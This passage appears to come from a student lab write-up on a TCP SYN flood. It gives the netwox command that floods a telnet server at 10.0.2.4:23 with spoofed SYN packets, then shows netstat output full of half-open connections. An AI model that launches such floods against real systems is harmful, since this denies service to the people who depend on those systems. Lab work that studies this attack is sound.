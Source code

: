 
Then on the attacker machine:

```
sudo netwox 76 -i 10.0.2.4 -p 23 -s raw
```

After a while, use `netstat -na` to check again:

```
...   
tcp        0      0 10.0.2.4:23             253.37.9.90:29644       SYN_RECV   
tcp        0      0 10.0.2.4:23             248.147.173.48:53909    SYN_RECV   
tcp        0      0 10.0.2.4:23             247.46.89.105:7502      SYN_RECV   
tcp        0      0 10.0.2.4:23             243.229.203.189:42333   SYN_RECV   
tcp        0      0 10.0.2.4:23             246.244.53.206:57787    SYN_RECV   
tcp        0      0 10.0.2.4:23             249.102.12.251:24453    SYN_RECV   
tcp        0      0 10.0.2.4:23             244.176.157.55:49031    SYN_RECV   
tcp        0      0 10.0.2.4:23             247.2.21.131:10590      SYN_RECV   
tcp        0      0 10.0.2.4:23             246.91.154.140:20177    SYN_RECV   
tcp        0      0 10.0.2.4:23             248.79.118.252:19283    SYN_RECV   
tcp        0      0 10.0.2.4:23             244.80.239.198:32419    SYN_RECV   
tcp        0      0 10.0.2.4:23             242.210.141.208:16979   SYN_RECV   
tcp        0      0 10.0.2.4:23             253.118.208.122:16242   SYN_RECV   
tcp        0      0 10.0.2.4:23             250.62.104.1:59169      SYN_RECV   
tcp        0      0 10.0.2.4:23             253.106.167.210:45412   SYN_RECV   
tcp        0      0 10.0.2.4:23             242.127.134.197:2832    SYN_RECV   
tcp        0      0 10.0.2.4:23             240.252.233.154:29403   SYN_RECV   
tcp        0      0 10.0.2.4:23             244.144.27.104:39086    SYN_RECV   
tcp        0      0 10.0.2.4:23             245.46.194.239:65426    SYN_RECV   
tcp        0      0 10.0.2.4:23             252.95.20.253:54774     SYN_RECV   
tcp        0      0 10.0.2.4:23             249.17.43.156:55525     SYN_RECV   
tcp        0      0 10.0.2.4:23             252.217.188.194:13813   SYN_RECV   
tcp        0      0 10.0.2.4:23             243.100.186.129:23679   SYN_RECV   
tcp        0      0 10.0.2.4:23             244.56.4.56:17826       SYN_RECV   
tcp        0      0 10.0.2.4:23             245.8.59.84:53947       SYN_RECV   
tcp        0      0 10.0.2.4:23             253.88.152.41:26808     SYN_RECV  
...
```
There are plenty of `SYN_RECV`-state (i.e. half-open) TCP connections targeting `10.0.2.4:23` from random source IP addresses. The server seems to be overwhelmed.

Meanwhile, if you attempt to `telnet` the server machine from the user machine, it will show:
